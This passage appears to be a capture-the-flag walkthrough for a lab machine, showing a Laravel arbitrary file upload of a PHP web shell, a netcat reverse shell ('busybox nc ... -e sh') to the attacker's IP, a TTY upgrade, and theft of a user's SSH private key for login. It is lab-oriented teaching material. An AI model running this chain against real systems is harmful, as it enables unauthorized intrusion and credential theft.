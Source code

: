 ![PHP Web Shell](webshell-image.png)
_PHP Web Shell in JPG_

2. Intercept Upload Request (w/BurpSuite) && change the Parameters:

![Laravel Arbitrary Upload Request](image-upload-request.png)
_Arbitrary File Upload Request_

3.  Access the PHP Shell & Ensure RCE:

![Laravel RCE Proof](laravel-php-rce-proof.png)
_Laravel Webshell RCE_

4. Start out netcat listener to catch the shell:
```bash
nc -lvnp 4444
```
- `-l` = listen mode (i.e. wait for connection attempts)
- `-v` = verbose mode
- `-n` = no DNS (IP Address only)
- `-p 4444` = Specify port to listen for connection on

5. Execute the Following reverse-shell payload: `busybox nc 10.10.14.16 4444 -e sh`  & make sure to URL encode it.

![Netcat Shell](successful-shell.png)
_Netcat Shell_

### User Dash -> Xander
With that we have a successful shell as the `dash` user, which gets us the user.txt flag. I will first upgrade to a TTY shell with the following command(s):
```bash
SHELL=/bin/sh script -q /dev/null
```
- `SHELL` = Environment variable Name
- `/bin/sh` = setting shell to bash to execute the following command(s)
- `script -q /dev/null` = Make typescript file of a terminal session, executes quietly (`-q`) and makes an empty log session `/dev/null`

![TTY Shell Upgrade](TTY-Shell.png)
_TTY Shell_

I noticed that the dash user has an SSH Private-key `/home/dash/.ssh/id_rsa` stored on his system. Copy this to our own system, Change the permissions `chmod 600 id_rsa`, and SSH into the system using the private key:
```bash
ssh -i id_rsa dash@usage.htb
```

On the SSH system I notice some hidden monit files:
![Dash Monit Files](dash-monit-files.png)
_Dash Monit Config Files_
